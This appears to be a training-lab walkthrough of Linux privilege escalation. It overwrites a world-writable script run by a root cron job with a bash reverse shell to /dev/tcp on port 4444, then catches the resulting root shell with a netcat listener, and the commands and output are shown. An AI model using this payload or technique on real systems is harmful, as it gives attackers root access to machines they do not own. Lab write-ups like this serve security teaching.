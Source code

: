 
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

```

* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```

Locate the full path of the overwrite.sh file:

locate overwrite.sh

Note that the file is world-writable:

ls -l /usr/local/bin/overwrite.sh

```

user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 818.6 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
user@debian:~$ 

```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.



```

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1



user@debian:~$ nano /usr/local/bin/overwrite.sh 
bash -i >& /dev/tcp/10.2.77.171/4444 0>&1
#echo `date` > /tmp/useless

```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

nc -nvlp 4444

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444       
listening on [any] 4444 ...
connect to [10.2.77.171] from (UNKNOWN) [10.10.217.88] 49697
bash: no job control in this shell
root@debian:~# whoami
whoami
root
root@debian:~# pwd 
pwd
/root
root@debian:~# echo $SHELL
echo $SHELL
/bin/sh
root@debian:~# exit
exit
```